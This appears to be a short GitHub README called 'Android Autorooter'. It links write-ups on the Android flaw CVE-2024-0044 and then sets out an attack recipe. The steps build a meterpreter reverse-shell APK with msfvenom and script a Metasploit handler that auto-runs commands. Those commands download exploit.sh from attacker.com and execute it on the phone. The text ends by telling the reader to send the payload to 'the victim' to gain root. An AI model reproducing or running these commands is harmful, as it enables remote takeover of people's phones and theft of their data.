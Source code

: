 

# Android Autorooter
[![Autorooter](https://cdn.mos.cms.futurecdn.net/k7c2VW8eHbWtSaCgzLAa4P-320-80.jpeg)]
This is just a mental note more than anything to further explore the posibilities of the work done here:
https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html
https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03
https://www.mobile-hacker.com/2024/06/17/exfiltrate-sensitive-user-data-from-apps-on-android-12-and-13-using-cve-2024-0044-vulnerability/

Ultimately I'd like to have a self executing exploit but babysteps yeah..

## Give this a try

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> R > payload.apk
```

Create a resource script execute_script.rc to automate the commands:
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
exploit -j
set AutoRunScript multi_console_command -rc /path/to/commands.rc
```

Create the resource script with the necessary commands:
```
cd /data/local/tmp
wget http://attacker.com/exploit.sh -O exploit.sh
chmod +x exploit.sh
./exploit.sh
```

Start Metasploit with the resource script:
```
msfconsole -r execute_script.rc
```
Get the party started with:
```
msfconsole -r execute_script.rc
```

Now your listener/payload delivery is set up...  Send that payload.apk to the victim.. Lets get some root baby
